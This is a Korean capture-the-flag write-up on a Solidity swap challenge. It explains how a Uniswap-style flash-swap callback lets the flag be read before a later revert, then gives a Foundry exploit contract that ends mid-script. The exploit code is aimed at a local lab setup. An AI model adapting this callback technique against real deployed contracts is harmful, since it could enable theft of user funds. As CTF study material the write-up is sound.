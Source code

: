 ```solidity
```

`_update` 함수에서 토큰이 보내려고 하는 값보다 적은 경우일때 8번째 줄에서 `revert` 하고 있으므로 solidity의 원자성에 의해 토큰이 충분하지 않을 때 발생할 수 있는 취약점은 없어 보인다.

---

 `_getExchange` 함수를 보면 `wETH`에서  `htoToken` 으로 보낼 때는 토큰을 2배로 보내지만, 반대일 때는 1/2배 보내는 것을 볼 수 있다.

`data.length` 가 0이 아닌 경우에는 `_from` 토큰의 개수를 `balanceBefore` 변수에 저장한 뒤, 토큰을 보낸다.

이후 IUniswapV2Callee contract의  `uniswapV2Call` 함수를 실행하고 있다.

### `uniswapV2Call` 함수

---

구글링을 통해 문서를 찾을 수 있었다.

[Flash Swaps | Uniswap](https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps)

flash loan이 가능하게 하고 있었고 이전 `data.length`가 0일때 기능과 크게 차이가 나보이지 않는다.

---

Swap을 통해 wETH의 `balanceOf`를 100000000 이상으로 만든 뒤 FLAG를 우선 얻는다면 후에 `swap` 함수에서 `revert` 가 발생하여도 FLAG를 얻을 수 있다.

# Exploit

---

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import { IUniswapV2Callee } from "../src/Swap.sol";
import { Swap } from "../src/Swap.sol";
import { WETH } from "../src/WETH.sol";

contract Ex is IUniswapV2Callee {
    Swap public swap_ = Swap(0x8A791620dd6260079BF849Dc5567aDC3F2FdC318);
    WETH public weth_ = WETH(0x5FbDB2315678afecb367f032d93F642f64180aa3);
    address public immutable owner;
    string public flag;

    function ex() external {
        try swap_.swap(100_000_001, 0, address(this), abi.encode("mingw")) {

        } catch {

        }
    }

    function uniswapV2Call(address, uint amount0Out, uint, bytes calldata) external override {
        flag = weth_.flag();
        console.log("FLAG: ", flag);
    }
}

contract Exploit is Script {
    function run() external {
        vm.startBroadcast();

```